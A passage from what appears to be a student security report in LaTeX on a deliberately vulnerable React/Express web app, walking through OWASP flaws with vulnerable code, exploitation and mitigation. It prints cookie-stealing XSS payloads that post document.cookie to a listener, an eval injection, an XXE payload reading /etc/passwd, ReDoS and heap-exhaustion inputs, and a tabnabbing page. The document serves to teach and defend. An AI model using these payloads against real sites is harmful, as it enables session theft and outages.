\textbf{Mitigation:} One of the most effective ways to prevent code injection attacks is to validate and sanitize all user input. This involves thoroughly checking user-supplied data for any potentially malicious characters or patterns. Input validation should be performed both on the client side and on the server side. Server-side validation is particularly important, as client-side validation can be bypassed by attackers. \\
The following image shows the solution we implemented:
\begin{center} 
\includegraphics[width=8cm]{images/invalid_attachment.eps} 
\end{center}
\subsubsection{Cross-Site Scripting (XSS)}
\label{subsubsec:cross_site_scripting}
Cross-Site Scripting (XSS) involves injecting malicious HTML with embedded script code to bypass Same-Origin Policies (SOP) enforced by browsers. SOP restricts JavaScript code from one origin from accessing documents, cookies, or performing operations on other origins. However, interactions through IMG and SCRIPT elements can still issue GET requests to other origins. 

\paragraph{Stored Cross-Site Scripting}
\label{par:stored_xss}
Stored XSS is particularly dangerous because the malicious script is stored on the server and affects all users who visit the compromised page without any need for the user to click on a malicious link. \\
\textbf{Vulnerable code:}
Consider the situation where sellers can register and provide their street address. In the frontend React application, the street address is displayed using the \texttt{dangerouslySetInnerHTML} property, which can render HTML content provided by the user. The vulnerable code in \texttt{routes/sellerRegistration.js} is as follows:

\begin{lstlisting}
<td><div dangerouslySetInnerHTML={{ __html: props.seller.address }}/></td> 
\end{lstlisting} 
\textbf{Exploitation:}
If an attacker registers a seller account with the following street address:

\begin{lstlisting}
<audio src="" onerror="fetch('http://localhost:1337', {method:'POST', body:document.cookie})">
\end{lstlisting}
The React component will render this HTML, and the malicious script will execute whenever an admin views the seller confirmation page. This script sends the admin's cookies to the attacker's server running on \texttt{localhost:1337}. If the attacker has a netcat listener on port \texttt{1337}, they can capture the cookies:
\begin{figure}[h]

\includegraphics[width=8cm]{images/stored_xss.eps}
\centering
\end{figure} \\ 
\textbf{Mitigation:}
To prevent Stored XSS vulnerabilities, it is essential to set cookies with the \texttt{HttpOnly: true} flag to prevent access to \texttt{document.cookie}, sanitize user input, and avoid using \texttt{dangerouslySetInnerHTML} or any other methods that directly inject user-supplied HTML into the DOM.

\subparagraph{Reflected DOM Injection} \mbox{} \\ 
\textbf{Description:} Reflected DOM Injection (RDI) is a form of Stored Cross-Site Scripting. An attacker may be able to use the vulnerability to construct a URL that, if visited by another application user, will cause JavaScript code supplied by the attacker to execute within the user's browser in the context of that user's session with the application.
\\ \textbf{Exploitation:} An attacker, by registering as a Seller, has the ability to insert a URL that redirects to the seller's website. Instead of inserting a link, since there is no control, he can directly insert javascript code (\texttt{javascript:<code>}) that is executed when a user tries to visit the seller's website. The example we have inserted is: \\ 
\texttt{javascript:window.opener.alert('Malicious code is now running :)');window.close()} \\
The execution of this code opens an alert with the message "Malicious code is now running :)".
\begin{figure}[h]

\includegraphics[width=8cm]{images/ReflectedDOMInj.eps}
\centering
\end{figure}
\\ \textbf{Mitigation:}
The most effective way to avoid DOM-based JavaScript injection vulnerabilities is not to execute as JavaScript any data that originated from an untrusted source. If the desired functionality of the application means that this behavior is unavoidable, then defenses must be implemented within the client-side code to prevent malicious data from executing as script. In many cases, the relevant data can be validated on a whitelist basis, to allow only content that is known to be safe. In other cases, it will be necessary to sanitize or encode the data. This can be a complex task, and may need to involve a combination of JavaScript escaping and HTML encoding, in the appropriate sequence.

\paragraph{Reflected Cross-Site Scripting}

Reflected Cross-Site Scripting (XSS) occurs when user input is reflected in the server's response without proper validation. For example, an attacker might craft a malicious search URL containing a script. The server processes the request without sanitizing the input, and the frontend displays a message like "You are searching for XYZ," where "XYZ" is the malicious script. The browser then executes the script, potentially exposing sensitive data. Reflected XSS, also known as Non-Persistent XSS, happens in a single request-response cycle. \\ 
\textbf{Vulnerable code:}
Consider the situation where users can search for sellers by username. The vulnerable React code in \texttt{routes/locatorPage.js} retrieves the seller's username from the URL query parameter \texttt{sellerUsername} and displays it using the \texttt{dangerouslySetInnerHTML} property. \\ 
Here is the vulnerable code:
\begin{lstlisting}
<p>You are searching for seller: <span dangerouslySetInnerHTML={{__html: sellerUsername}}></span> </p> 
\end{lstlisting}
\textbf{Exploitation:}
An attacker can craft a malicious URL like this:

\begin{lstlisting}
http://localhost:3000/user/locator?sellerUsername=<audio src="" onerror="fetch('http://localhost:1337', {method:'POST', body:document.cookie})">
\end{lstlisting}
When a user clicks on this URL, the script executes and sends the user's cookies to the attacker's server listening on port 1337. The attacker can capture the cookies using netcat. \\ 
\textbf{Mitigation:}
To prevent Reflected XSS vulnerabilities, it is essential to set cookies with the \texttt{HttpOnly: true} flag to block access to \texttt{document.cookie}, properly handle and sanitize all user inputs, especially those included in the URL, and stop using \texttt{dangerouslySetInnerHTML}.

\paragraph{DOM-Based Cross-Site Scripting}

DOM-Based Cross-Site Scripting (XSS) is a type of XSS attack caused by improper handling of untrusted input on the client-side, rather than the server-side. This means the vulnerability exists within the client-side code (e.g., JavaScript) that manipulates the DOM, without any need to reach back to the web server. As standalone web applications become more prevalent, the importance of securing client-side code against DOM XSS has increased.

In a DOM XSS attack, the malicious script is injected and executed entirely within the browser, modifying the DOM to perform unauthorized actions or exfiltrate sensitive data. \\ 
\textbf{Vulnerable code:}
Consider the possibility for users to change the theme color. The vulnerable React code in \texttt{routes/changeTheme.js} retrieves the theme color (\texttt{themeChosen} variable) from the '\texttt{color}' URL parameter and displays it using the \texttt{dangerouslySetInnerHTML} property:

\begin{lstlisting}
<p style={{ marginTop: '20px' }}>You selected: <strong dangerouslySetInnerHTML={{__html:themeChosen}}></strong></p>
\end{lstlisting}
\textbf{Exploitation:}
An attacker can craft a malicious URL like this:

\begin{lstlisting}
http://localhost:3000/user/changeTheme?color=<audio src="" onerror="fetch('http://localhost:1337',{method:'POST',body:document.cookie})">
\end{lstlisting}
When a user visits this URL, the script executes and sends the user's cookies to the attacker's server listening on port 1337. The attacker can capture the cookies using netcat. \\ 
\textbf{Mitigation:}
To prevent DOM XSS vulnerabilities, it is essential to set cookies with the \texttt{HttpOnly: true} flag to prevent access to \texttt{document.cookie}, properly handle and sanitize all user inputs before they are used to manipulate the DOM, and avoid using \texttt{dangerouslySetInnerHTML}.

\subsubsection{Improper Neutralization of Directives in Dynamically Evaluated Code}
\label{subsubsec:improper_neutralization_of_directives_in_dynamically_evaluated_code}

\textbf{Description:} This vulnerability belongs to the category of {\it injection}, and it is caused by incorrect validation or sanitization of 
the input in a dynamic evaluation call.
\\ 
\textbf{Vulnerable code:} The code is contained in \texttt{routes/authentication.js} file of the Express backend. The function \texttt{validateCredentials} 
is used by the registration API to check if the length of the username length is greater than 3 using the \texttt{eval()} function which evaluates the 
JavaScript code in input represented as a string. 
\begin{lstlisting}
const validateCredentials = (username, password) => {
    const passwordRegex = new RegExp("^(([a-zA-Z])+.)+([a-zA-Z])+$");
    return eval(`'${username}'.length > 3`) && passwordRegex.test(password);
}
\end{lstlisting}
\textbf{Exploitation:} This vulnerability can be exploited to execute arbitrarty code in the server. The attacker can provide a malicious string in 
the user registration page in the username field. For example, using the string \texttt{'; dbapi.deleteUser(4) || 'aaa}, the \texttt{eval()} function 
returns true and the \texttt{dbapi.deleteUser(4)} is executed, deleting the user with the specified id. 
\\ 
\textbf{Mitigation:} The vulnerability can be fixed validating the provided username or not using \texttt{eval()}.  

\subsubsection{Inefficient Regular Expression Complexity}
\label{subsubsec:inefficient_regular_expression_complexity}
\textbf{Description:} This vulnerability belongs to the category of {\it injection}, and it is caused by the use of a regular expression with an inefficient 
worst-case computational complexity.
\\
\textbf{Vulnerable code:} The code is contained in the \texttt{routes/authentication.js} file of the Express backend. The function \texttt{validateCredentials}
is used by the registration API to allow only specific password patterns. However, it uses a regular expression which can be exploited by an attacker to make 
the server unavailable. 

\begin{lstlisting}
const validateCredentials = (username, password) => {
    const passwordRegex = new RegExp("^(([a-zA-Z])+.)+([a-zA-Z])+$");
    return eval(`'${username}'.length > 3`) && passwordRegex.test(password);
}
\end{lstlisting}
\textbf{Exploitation:} The attacker can provide a malicious string in the user registration page in the password field. For example, using the string 
\texttt{tttttttttttttttttttttttttttttttttttttttttttttttttt+}, the comparison with the regular expression used to validate the password will make the 
server busy for several time due to the complexity of the regular expression. 
\\ 
\textbf{Mitigation:} This vulnerability can be fixed using a regular expression which is not vulnerable to this type of attack.

\subsection{Insecure Design}

Insecure Design arises when security considerations are insufficiently integrated into the development process. This can result in vulnerabilities due to the lack of comprehensive threat modeling, improper choice of security controls, or inadequate security measures.

\subsubsection{Client-side Enforcement of Server-side Security}

Client-side enforcement of server-side security occurs when a web application relies on the frontend to enforce security policies, which should be enforced on the server-side. This vulnerability allows attackers to manipulate client-side code to bypass security checks, potentially gaining unauthorized access or performing actions they should not be able to. \\ 
\textbf{Description:}
In many web applications, the frontend is designed to display certain elements or allow certain actions only if the user has specific privileges, such as being an admin. However, if the server does not validate these privileges and relies solely on the frontend for enforcement, attackers can manipulate the frontend code to gain unauthorized access or perform unauthorized actions. It's even worse due to the fact that React Developer Tools were NOT disabled via 'disableReactDevTools()', so all the frontend code is easily modifiable. \\ 
\textbf{Vulnerable code:}
Consider the scenario where the web application allows users to delete transactions only if they are admins (in theory). The frontend uses a property to determine if the user is an admin and only shows the delete option if the user has admin privileges. However, the server does not check if the user is an admin before performing the delete operation. The vulnerable code in the Express backend in file \texttt{routes/transactions.js} looks like this:

\begin{lstlisting}
router.post("/delete", function(req, res) {
    if (req.session.user !== undefined) {  // oops didn't check if session is admin so it's a
                                           // client-side enforcement of server-side security
        dbapi.deleteTransaction(req.body.transactionId)
        .then(() => {
            res.status(200).send();
        // ... other code
});
\end{lstlisting}
In this example, the server checks if the user is logged in but does not verify if the user has admin privileges before allowing the deletion of a transaction. \\ 
\textbf{Exploitation:}  
An attacker can exploit this vulnerability by altering the client-side code to trick the application into granting admin-level access. Here's how the attack might be done:

1. Modify the 'role' state (in the \texttt{App.js} frontend file) to 'admin'. This is simplified by the availability of React Developer Tools, which remains enabled since the app did not use `disableReactDevTools()`, making the frontend code easily modifiable.
   
2. Without refreshing the page (which would reset the changes), navigate to the admin page using the browser console with the following commands:
\begin{lstlisting}
history.pushState(history.pushState.state, "", "/admin/homepage");
window.dispatchEvent(new Event('popstate'));
\end{lstlisting}
By doing so, the attacker can access the admin interface and perform actions like listing or deleting transactions, despite lacking admin privileges, since the server fails to enforce role-based access control. \\ 
\textbf{Note:} This attack could also be performed by directly sending a crafted request (using the user's existing session cookie) to the server, without using the frontend at all. \\ 
\textbf{Mitigation:}
To prevent this type of vulnerability, the server must enforce all security policies. This includes verifying user privileges before performing any sensitive operations. The server should never rely on the frontend to enforce security checks. Here is an example of a more secure approach:

\begin{lstlisting}
router.post("/delete", function(req, res) {
    if (req.session.user !== undefined && req.session.user.role === "admin") {  // Check if the user is an admin
        // ...
});
\end{lstlisting}
By ensuring that the server validates user privileges, the application can prevent unauthorized users from performing actions that should be restricted to admins only.

\subsubsection{Improper control of interaction frequency}
\label{subsubsec:improper_control_of_interaction_frequency}
\textbf{Description:} This vulnerability belongs to the category of {\it insecure design}, and it is caused by not limiting consecutive failed login attempts. 
\\ 
\textbf{Vulnerable code:} The code is contained in the \texttt{routes/authentication.js} file of the Express backend.
\begin{lstlisting}
router.post("/login", function (req, res) {
    dbapi.checkCredentials(req.body.username, req.body.password)
        .then((result) => { // result contains "id", "username", "passwordHash", "balance", "role", "pending_registration"
            if (result.pending_registration === "false") {
                req.session.user = result;                                                                 
                res.status(200)
                    .cookie("passwordHash", result.passwordHash)
                    .cookie("username", req.body.username, { httpOnly: false }).send(JSON.stringify(result)); 
                winston.info(`login success by ${req.body.username}`);
            }
            else {     
                res.status(401).send();
                winston.info(`login failed by ${req.body.username}`);
            }
        })
        .catch(() => {
            winston.info(`login failed by ${req.body.username}`);
            res.status(500).send();
        })
});
\end{lstlisting}
\textbf{Exploitation:}
This vulnerability can be exploited to perform multiple login attempts untill the password of an user is found. This can be done sending 
several login POST requests to the server trying each time a different password. If the user's password is weak (e.g. it does not contain 
uppercase and lowercase characters or special characters, has a short length) or it is part of a password dictionary this attack is feasible 
in short time (minutes or hours). 
\\
\textbf{Mitigation:}
To fix this issue is needed to block the login of an user if there is a number of failed login attempts higher than a treshold in a limited amount of time.

\subsection{Security Misconfiguration}

Security Misconfiguration occurs when security features are not properly configured, potentially exposing the application to various vulnerabilities. Common examples include leaving development settings in production, not disabling default accounts, failing to disable directory listings, and improperly configured permissions.

\subsubsection{XML External Entities (XXE)}

XML External Entity (XXE) vulnerabilities occur when an application processes XML input containing external entities, potentially leading to unauthorized access to sensitive files and data on the server. \\ 
\textbf{Understanding XXE:}
Below is an example of malicious XML designed to exploit an XXE vulnerability:

\begin{lstlisting}
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<seller><name>&xxe;</name></seller>
\end{lstlisting}

\begin{itemize}
    \item \texttt{<?xml version="1.0" encoding="ISO-8859-1"?>}: XML declaration specifying the version and character encoding.
    \item \texttt{<!DOCTYPE foo [ ... ]>}: Document Type Definition (DTD) defining the structure and entities of the XML document. Elements specify the structure and permissible content of XML, but in this example, the element declaration \texttt{<!ELEMENT foo ANY>} is unnecessary because \texttt{<foo>} is not used in the XML content.
    \item \texttt{<!ENTITY xxe SYSTEM "file:///etc/passwd">}: Declares an external entity named \texttt{xxe} that points to the sensitive file \texttt{/etc/passwd}.
    \item \texttt{<seller><name>\&xxe;</name></seller>}: Uses the external entity \texttt{xxe} to include the contents of \texttt{/etc/passwd} within the XML document.
\end{itemize}
\textbf{Vulnerable Code:}
The following code, found in the \texttt{routes/authentication.js} file of an Express backend, demonstrates how the vulnerability is introduced by improperly parsing XML input:

\begin{lstlisting}
else if(req.body.xmlContent){
    try{
        const xml = req.body.xmlContent;
        const libxmljs = require('libxmljs');
        const doc = libxmljs.parseXml(xml, { replaceEntities: true, dtdload: true });   // oops
        const sellerName = doc.get('//seller/name').text();
        dbapi.addSeller(req.body.username, req.body.password, req.body.address, "seller", "true", req.body.xmlContent)
            .then(() => {
                res.status(201).send(JSON.stringify({"sellerName":sellerName}));  // oops
            })
    } catch {
        res.status(500).send();
    }
}
\end{lstlisting}
\textbf{Exploitation:}

\begin{enumerate}
    \item \textbf{Sending Malicious XML:} An attacker submits XML containing an external entity reference, such as the \texttt{xxe} entity designed to access sensitive server files like \texttt{/etc/passwd}. The XML parser is configured to resolve external entities and load DTDs, which allows the external entity to be processed.

    \item \textbf{Parsing the XML:} The server uses an XML parser (e.g., \texttt{libxmljs}) to process the XML. The parser is configured with options like \texttt{\{replaceEntities: true\}} to resolve external entities and \texttt{\{dtdload: true\}} to allow loading of external DTDs and entities. As a result, the parser fetches and processes the external entity reference.

    \item \textbf{Data Exposure:} The parser resolves the external entity, retrieves the contents of the targeted file (e.g., \texttt{/etc/passwd}), and includes it in the XML document. This results in unauthorized disclosure of sensitive data, which is then included in the server's response and displayed in the frontend.
\end{enumerate}
\textbf{Mitigation:}
To prevent XXE vulnerabilities, it is essential to disable external entity resolution and DTD processing in the XML parser. In `libxmljs`, this can be achieved by configuring the parser as follows:

\begin{lstlisting}
const doc = libxmljs.parseXml(xml, { replaceEntities: false, dtdload: false, nonet: true });
\end{lstlisting}

This configuration ensures:
\begin{itemize}
    \item External entities are not resolved by setting `replaceEntities: false`.
    \item External DTDs are not loaded by setting `dtdload: false`.
    \item No external network connections are made during XML parsing by using `nonet: true`.
\end{itemize}

\subsubsection{Sensitive Cookie Without Proper 'Secure', 'HttpOnly', and 'SameSite' Attributes}
\label{subsubsec:sensitive_cookie_without_secure_and_httponly_attributes}

A common 'security misconfiguration' weakness involves cookies lacking one or more essential attributes such as 'Secure', 'HttpOnly', or an appropriate 'SameSite' setting (though the 'Improper SameSite Attribute' weakness actually belongs to 'broken access control' risk category). These attributes serve different but complementary purposes in protecting cookies from various security threats. \\ 
\textbf{Vulnerable code:}
There is a dangerous cookie configuration in \texttt{index.js} file of express backend:

\begin{lstlisting}
cookie: {
    httpOnly: false,
    secure: false,
    sameSite: "None",
    maxAge: 3600000000
}
\end{lstlisting}
\textbf{Cookie Security Attributes:}
In this example, improper configuration of three key cookie attributes introduces significant security risks:
\begin{enumerate}
\item \textbf{Secure Attribute:}
   The \texttt{secure: false} setting allows cookies to be transmitted over both HTTP and HTTPS connections. Without the 'Secure' attribute, cookies can be sent over unencrypted HTTP, making them vulnerable to interception by attackers.

\item \textbf{HttpOnly Attribute:} 
   The \texttt{httpOnly: false} setting permits client-side scripts, such as JavaScript, to access cookies. Without the 'HttpOnly' attribute, cookies can be accessed by malicious scripts, increasing the risk of cross-site scripting (XSS) attacks. Attackers can steal sensitive cookies, such as session tokens, using JavaScript commands like \texttt{document.cookie}, leading to unauthorized access.

\item \textbf{SameSite Attribute:}
   The \texttt{sameSite: "None"} setting permits cookies to be sent with cross-origin requests, potentially enabling Cross-Site Request Forgery (CSRF) attacks. Attackers can exploit this by tricking users into making unintended requests to your server from a different site, leveraging the user's session cookies.
\end{enumerate}
\textbf{Mitigations:}  
To mitigate these risks, the following steps should be taken:
\begin{itemize}
    \item Set the \texttt{secure} attribute to \texttt{true} in production environments, ensuring cookies are only transmitted over HTTPS connections.
    \item Set the \texttt{httpOnly} attribute to \texttt{true} to prevent client-side scripts from accessing sensitive cookies, especially session cookies.
    \item Use an appropriate \texttt{SameSite} attribute. Setting \texttt{sameSite: "Strict"} can prevent cookies from being sent with cross-origin requests, thus protecting against CSRF. Avoid using \texttt{SameSite: None} unless absolutely necessary, and in that case ensure proper CSRF protection mechanisms are in place.
\end{itemize}

\subsubsection{Generation of Error Message Containing Sensitive Information}
\textbf{Description:} This vulnerability belongs to the category of {\it security misconfiguration}, and it consists in revealing error messages that can be used by an 
attacker to gain information useful to attack the web application. 
\\
\textbf{Vulnerable code:} The vulnerable code is contained in the \texttt{routes/authentication.js} file of the Express backend. At line 7 the error trace is sent to 
the client in the response. This can reveal useful information to the attacker which can be used to exploit other vulnerabilities present in the code. 
\begin{lstlisting}
router.post("/registration", function (req, res) {
    try {
        validateCredentials(req.body.username, req.body.password);
    }
    catch (err) {
        winston.error("Error during registration", err);
        res.status(500).send(err.stack);
        return;
    }
   ...
});
\end{lstlisting}
\textbf{Mitigation:} This vulnerability can be fixed avoiding to send the error message in the HTTP response.

\subsubsection{Exposure of Information Through Directory Listing}
\label{subsubsec:exposure_of_information_through_directory_listing}
\textbf{Description:} This vulnerability belongs to the category of \textit{security misconfiguration}, and it is caused by exposing a directory listing which
provides an attacker with the index of all the resource located in the server directory.
\\
\textbf{Vulnerable code:} The code is contained in the \texttt{index.js} file of the Express backend. 
\begin{lstlisting}
app.use('/dir', express.static('./'), serveIndex('./', {'icons': true}))
\end{lstlisting}
\textbf{Exploitation:} The attacker can obtain the index of all the directory typing in the browser search bar the URL \texttt{localhost:3001/dir}
\\ 
\textbf{Mitigation:} The vulnerability can be fixed removing the directory listing or limiting it only to directories which do not contain sensitive data.

\subsubsection{Reverse Tabnabbing}

\textbf{Description:} Reverse tabnabbing is an attack where a page linked from the target page is able to rewrite that page, for example to replace it with a phishing site. As the user was originally on the correct page they are less likely to notice that it has been changed to a phishing site, especially if the site looks the same as the target. If the user authenticates to this new page then their credentials (or other sensitive data) are sent to the phishing site rather than the legitimate one. \\ 
The attack is typically possible when the source site uses a target instruction in a html link to specify a target loading location that do not replace the current location and then let the current window/tab available and does not include any of the preventative measures detailed below. \\ 
The attack is also possible for link opened via the window.open javascript function.
\\ \textbf{Vulnerable code:} In \texttt{sellerRegistration.js}:
\begin{lstlisting}
<td>{props.seller.webpage ? <Button as="a" href={props.seller.webpage} target="_blank" rel="opener">Open</Button> : "N/A"} </td>
\end{lstlisting}
\texttt{rel="opener"} allows the opened page to have a reference to the parent page. With this reference the attacker can replace the parent page with a phishing site.
\\ \textbf{Exploitation:} A seller during registration can insert a link to a web page. An attacker can exploit this by inserting a link to a page that has the code to replace the parent page. For example:
\begin{lstlisting}
<!-- This is a test page to demonstrate Reverse Tabnabbing attack -->
<html>
  <head>
    <title>Page not found</title>
    <script>
      if (window.opener) {
        window.opener.location =
          "https://upload.wikimedia.org/wikipedia/commons/2/26/You_Have_Been_Hacked%21.jpg";
      }
    </script>
  </head>
  <body>
    <h1>Page not found</h1>
    <p>
      The page you are looking for might have been removed, had its name
      changed, or is temporarily unavailable.
    </p>
    <p>Please go back where you came from :(</p>
  </body>
</html>
\end{lstlisting}
For simplicity, we chose to insert a link that redirects to an image with a message rather than a phishing page.
\\ \textbf{Mitigation:} To mitigate this vulnerability, simply use \texttt{rel="noopener"} or \texttt{rel="noreferrer"} instead of \texttt{rel="opener"}. Using \texttt{rel="noreferrer"} implicitly sets also \texttt{rel="noopener"}, so if you have chosen to use \texttt{rel="noreferrer"}, the use of \texttt{rel="noopener"} isn’t required.

\subsection{Vulnerable and Outdated Components}

Vulnerabilities in outdated components arise when software applications use third-party libraries that are no longer maintained or contain known security flaws. These components often run with the same privileges as the main application, making their vulnerabilities particularly dangerous.

\subsubsection{Using Components with Known Vulnerabilities}

\textbf{Description:}
Using libraries with known vulnerabilities creates significant risks. For example, the web application in question relies on the \texttt{braces} NPM package, which has a known vulnerability leading to Denial of Service (DoS) attacks due to uncontrolled resource consumption. The \texttt{braces} package is used to expand regex patterns into multiple strings. For instance, a regex pattern like \texttt{'seller' + '\{' + '9'.repeat(2) + ',' + 'test'.repeat(2) + '\}'} would be expanded into \texttt{'seller99'} and \texttt{'sellertesttest'}. \\ 
So 'braces' package is used to create large lists of potential strings that we'd want to search in the database, without searching all possibilities one by one. But some specific patterns can lead to resource exhaustion, particularly if using a version of \texttt{braces} prior to 3.0.3. \\ 
\textbf{Vulnerable Code:}
The vulnerability exists in the \texttt{routes/users.js} file of the Express backend, where regex patterns are processed as shown:

\begin{lstlisting}
const { braces } = require('micromatch');
const finalSellerUsernameToSearch = braces(finalRegex, { expand: true });
\end{lstlisting}
Although the application employs `isolated-vm` to execute regex patterns safely, the \texttt{braces} library itself is vulnerable to attacks such as Heap memory exhaustion in versions before 3.0.3. Malicious inputs can overwhelm system memory, leading to server crashes. \\ 
\textbf{Exploitation:}
An attacker can exploit this vulnerability by submitting regex patterns with an excessive number of nested braces, such as:

\begin{lstlisting}
'seller' + '{'.repeat(536870000)
\end{lstlisting}
This input causes the \texttt{braces} library to process a massive number of nested braces, resulting in an infinite loop and rapid consumption of Heap memory. The server eventually crashes due to memory exhaustion. \\ 
The number '536870000' is approximately the maximum number of characters that can be handled in a string by the V8 JavaScript engine, as noted in this GitHub issue: \footnotesize 'https://github.com/nodejs/node/issues/35973\#issuecomment-722253319'.\\
\normalsize
Malicious users can trigger this vulnerability by repeatedly submitting such patterns through the "Search" button on the 'Seller Locator' page, leading to server crashes due to Heap Memory exhaustion. \\ 
\textbf{Mitigation:}
To mitigate this issue, update the \texttt{braces} package to version 3.0.3 or later, which includes a fix for this DoS vulnerability.

\subsection{Identification and Authentication Failures}

Identification and Authentication Failures occur when an attacker can bypass authentication mechanisms or gain unauthorized access. Examples include weak passwords, improper session management, and exposure of credentials.

\subsubsection{Use of Hard-Coded Credentials}

The use of hard-coded credentials is a serious security issue where sensitive information is embedded directly in the source code. This practice can lead to unauthorized access if the credentials are exposed or leaked. \\
\textbf{Vulnerable Code:}
In the specific context of the web application, hard-coded credentials were found in \texttt{authentication.js}. During development, a comment was mistakenly left in the code that revealed sensitive information. The comment in the \texttt{login} function was:

\begin{lstlisting}
// admin account is admin admin
\end{lstlisting}
This comment discloses the hard-coded credentials for the admin account. Although intended as a development note, it remains visible to the client and can be exploited by attackers. Comments, if not removed during building, remain visible in React frontend code accessible by the client. \\ 
\textbf{Mitigation:}
To prevent the use of hard-coded credentials:
\begin{itemize}
    \item Avoid embedding sensitive information in source code or at least ensure that all sensitive information (such as in comments) is removed before deploying code to production.
    \item Regularly rotate credentials and update authentication processes to enhance security.
\end{itemize}

\subsubsection{Session timeouts not set correctly}
\textbf{Description:} Application session timeouts aren't set correctly. A user uses a public computer to access an application. Instead of selecting "logout," the user simply closes the browser tab and walks away. An attacker uses the same browser an hour later, and the user is still authenticated. \\
\textbf{Vulnerable code:} in \texttt{index.js}
\begin{lstlisting}
app.use(
    session({
        secret: process.env.SESSION_SECRET,
